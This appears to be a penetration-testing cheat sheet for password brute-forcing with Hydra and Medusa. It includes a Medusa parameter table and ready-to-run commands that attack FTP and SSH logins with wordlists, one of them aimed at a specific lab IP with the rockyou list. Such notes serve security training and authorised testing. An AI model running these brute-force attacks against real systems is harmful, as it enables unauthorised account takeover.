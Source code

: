 #### Random Password
```
-x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789
```
- Generate and test passwords ranging from 6 to 8 characters, using the specified character set.

## Medusa
```bash
$ medusa [target_options] [credential_options] -M module [module_options]
```

| Parameter                | Explanation                                                                                               |
|--------------------------|-----------------------------------------------------------------------------------------------------------|
| `-h HOST` or `-H FILE`    | Target options: Specify either a single target hostname or IP address (`-h`) or a file containing a list of targets (`-H`). |
| `-u USERNAME` or `-U FILE`| Username options: Provide either a single username (`-u`) or a file containing a list of usernames (`-U`). |
| `-p PASSWORD` or `-P FILE`| Password options: Specify either a single password (`-p`) or a file containing a list of passwords (`-P`). |
| `-M MODULE`              | Module: Define the specific module to use for the attack (e.g., ssh, ftp, http).                          |
| `-m "MODULE_OPTION"`      | Module options: Provide additional parameters required by the chosen module, enclosed in quotes.           |
| `-t TASKS`               | Tasks: Define the number of parallel login attempts to run, potentially speeding up the attack.            |
| `-f` or `-F`             | Fast mode: Stop the attack after the first successful login is found, either on the current host (`-f`) or any host (`-F`). |
| `-n PORT`                | Port: Specify a non-default port for the target service.                                                   |
| `-v LEVEL`               | Verbose output: Display detailed information about the attack's progress. The higher the LEVEL (up to 6), the more verbose the output. |

Services: FTP HTTP IMAP MySQL POP3 RDP SSHv2 SVN Telnet VNC Web Form

### Advanced Brute-Forcing
#### Targeting Multiple Servers
```bash
$ medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M <Service>
```

## FTP
```bash
$ hydra -L user.list -P password.list ftp://<IP> -s 21

$ medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
```

## SSH
```bash
$ hydra -L user.list -P password.list ssh://<IP>

$ medusa -M ssh -h <IP> -u <username> -P <password>
```
